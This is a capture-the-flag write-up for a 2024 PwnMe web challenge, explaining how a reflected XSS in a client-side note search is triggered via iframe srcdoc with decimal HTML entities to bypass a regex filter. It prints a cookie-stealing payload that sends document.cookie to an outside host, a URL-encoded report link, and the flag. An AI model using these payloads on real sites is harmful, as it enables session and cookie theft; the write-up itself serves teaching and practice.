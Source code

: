 # Solution pour le challenge Hack The Bot 1

My first white-box web challenge, that I created for the 2024 PwnMe event.

We have an website with hacking notes and and functionality for searching within different notes, as well as a functionality for report a malicious link. The goal is to obtain a LFI through a XSS.
![](site.png)

## Part 1

## 🔎 - Recon 
---
The application use Node with a Nginx, and has no particular backend logic, everything will be client-side for this part.
Our goal will be to retrieve the `SameSite Strict` bot's cookie, which is set only on the localhost site.
  

The client-side article search functionality is implemented as follows :
```javascript
function searchArticles(searchInput = document.getElementById('search-input').value.toLowerCase().trim()) {
    const searchWords = searchInput.split(/[^\p{L}]+/u);
    const articles = document.querySelectorAll('.article-box');
    let found = false;
    articles.forEach(article => {
        if (searchInput === '') {
            article.style.display = '';
            found = true;
        } else {
            const articleText = article.textContent.toLowerCase();
            const isMatch = searchWords.some(word => word && new RegExp(`${word}`, 'ui').test(articleText));
            if (isMatch) {
                article.style.display = '';
                found = true;
            } else {
                article.style.display = 'none';
            }
        }
    });
    const noMatchMessage = document.getElementById('no-match-message');
    if (!found && searchInput) {
        noMatchMessage.innerHTML = `No results for "${searchInput}".`;
        noMatchMessage.style.display = 'block';
    } else {
        noMatchMessage.style.display = 'none';
    }
}
```
This performs a regex search [A-z] without taking cares about special characters.
Input that will be reflected in DOM if no match found, which allows us to inject html tags and other goodies.

![](injection.png)


## 💥 Trigger an XSS
---
The first difficulty will be to get around the regex which, if matched with an article, does not render our payload. So we can't use classic payloads, like `img`, `svg`, `script` tags and some useful `onxxxx` events and `src` attribute.

![](script.png)

The intended solution here was to use an iframe (which is not on articles) to execute Javascript code inside it. To do this, we can use the [iframe srcdoc](https://www.w3schools.com/tags/att_iframe_srcdoc.asp) attribute. 

![](iframe1.png)


The problem is that we still have to deal with the filter, which still applies to our input... Fortunately, the `srcdoc` attribute allows you to use `HTML encoding`, not in the “classic” hexadecimal form (`&#x90`), which would trigger the filter because of the `x` But in decimal form `&#100`

![](iframe2.png)

From here we can execute javascript in the iframe, and try to retrieve the cookie from its [parent](https://developer.mozilla.org/fr/docs/Web/API/Window/parent) because the `srcdoc` is not not restricted by SOP. 

We encode with problematics keywords with HTML Entity (only the srcdoc payload not the iframe part)

```html
<iframe srcdoc='<s&#99;ript>d&#111;cument.l&#111;cation="http://secu.fun:8080/?c="+d&#111;cument.c&#111;okie;</s&#99;ript>'>
```

![](XSS.png)

Perfect ! Iframe can access to the cookie


## ⏱️ Exfiltration
---

We just have to send our payload report link with `?q=` parameter (don't forget to URL encode):
```url
http://localhost/?q=%3Ciframe%20srcdoc='%3C%26%23115%3B%26%2399%3B%26%23114%3B%26%23105%3B%26%23112%3B%26%23116%3B%3E%26%23100%3B%26%23111;cument.%26%23108%3B%26%23111%3B%26%2399%3B%26%2397%3B%26%23116%3B%26%23105%3B%26%23111%3B%26%23110%3B=%22%26%23104%3B%26%23116%3B%26%23116%3B%26%23112%3B://secu.fun:8080/?%26%2399%3B=%22%2B%26%23100%3B%26%23111;cument.%26%2399%3B%26%23111;okie;%3C/%26%23115%3B%26%2399%3B%26%23114%3B%26%23105%3B%26%23112%3B%26%23116%3B%3E'%3E
```

And obtain the first flag ! 
`PWNME{D1d_y0U_S4iD-F1lt33Rs?}`

